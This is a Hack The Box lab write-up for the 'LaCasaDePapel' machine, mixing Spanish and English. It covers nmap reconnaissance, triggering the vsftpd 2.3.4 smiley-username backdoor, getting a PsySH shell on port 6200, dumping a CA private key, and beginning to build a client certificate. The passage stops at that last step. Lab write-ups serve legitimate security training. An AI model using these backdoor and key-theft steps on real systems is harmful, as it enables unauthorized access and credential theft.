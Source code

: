 ### Ping
```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ ping -c 4 10.10.10.131
PING 10.10.10.131 (10.10.10.131) 56(84) bytes of data.
64 bytes from 10.10.10.131: icmp_seq=1 ttl=63 time=191 ms
64 bytes from 10.10.10.131: icmp_seq=2 ttl=63 time=203 ms
64 bytes from 10.10.10.131: icmp_seq=3 ttl=63 time=188 ms
64 bytes from 10.10.10.131: icmp_seq=4 ttl=63 time=191 ms

--- 10.10.10.131 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 187.901/193.082/202.834/5.753 ms

```

TTL = 63 = Linux

#### Nmap
```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ nmap 10.10.10.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 06:34 EDT
Nmap scan report for 10.10.10.131 (10.10.10.131)
Host is up (0.20s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

##### Todos los puertos
```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ nmap 10.10.10.131 -p- --min-rate=1000 -T5 -Pn -n
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 06:36 EDT
Warning: 10.10.10.131 giving up on port because retransmission cap hit (2).
Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 77.13% done; ETC: 06:37 (0:00:19 remaining)
Nmap scan report for 10.10.10.131
Host is up (0.19s latency).
Not shown: 63807 closed tcp ports (conn-refused), 1724 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https   
```

```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ nmap 10.10.10.131 -p21,22,80,443 -sCV                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 06:38 EDT
Nmap scan report for 10.10.10.131 (10.10.10.131)
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|   http/1.1
|_  http/1.0
| tls-alpn: 
|_  http/1.1
Service Info: OS: Unix
```


## Port 21 - vsftpd 2.3.4

https://www.exploit-db.com/exploits/49757

```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ ftp 10.10.10.131
Connected to 10.10.10.131.
220 (vsFTPd 2.3.4)
Name (10.10.10.131:pelado): pela:) 
331 Please specify the password.
Password: 

421 Service not available, remote server timed out. Connection closed.
ftp: Login failed
ftp> 
```

```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ nc 10.10.10.131 6200                          
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman

```

https://psysh.org/

#### How execute commands there?

https://stackoverflow.com/questions/56910401/how-to-execute-system-commands-using-psysh-php

```js
scandir("/home/nairobi")
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
echo file_get_contents("/home/nairobi/ca.key")
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----

```

Primero, debemos entender el concepto de **par de clave privada/clave pública** :
El cifrado mediante un par de clave privada/clave pública garantiza que los datos puedan cifrarse con una clave y descifrarse _únicamente_ con la otra clave del par. Las claves son de naturaleza similar y se pueden usar alternativamente: lo que una clave cifra, la otra se puede usar para descifrar. Las claves se generan con algoritmos que utilizan números primos y su longitud de bits determina la dificultad de descifrar los datos sin las claves. El truco con un par de claves consiste en mantener una clave en secreto (la clave privada) y distribuir la otra (la clave pública) a todos. Cualquiera puede enviarte un mensaje cifrado que sólo tú podrás descifrar. Sólo tú tienes la otra llave del par, ¿verdad? En el caso contrario, puedes certificar que un mensaje proviene sólo de ti, porque eres tú quien lo ha cifrado con tu clave privada, y sólo la clave pública asociada lo descifrará correctamente. ¡Cuidado, en este caso el mensaje no está seguro: solo lo has _firmado_ efectivamente , ya que la clave pública está disponible para todos!

Mas info: https://stackoverflow.com/questions/18843466/whats-a-client-certificate-and-where-to-get-it-how-to-use-it-to-connect-to-ser

For authenticate with 443 https in with Express web server:
https://medium.com/@sevcsik/authentication-using-https-client-certificates-3c9d270e8326
https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs

```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/LaCasaDePapel]
└─$ openssl req -x509 -new -nodes -key ca.key -sha256 -days 500 -out p314.pem 
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

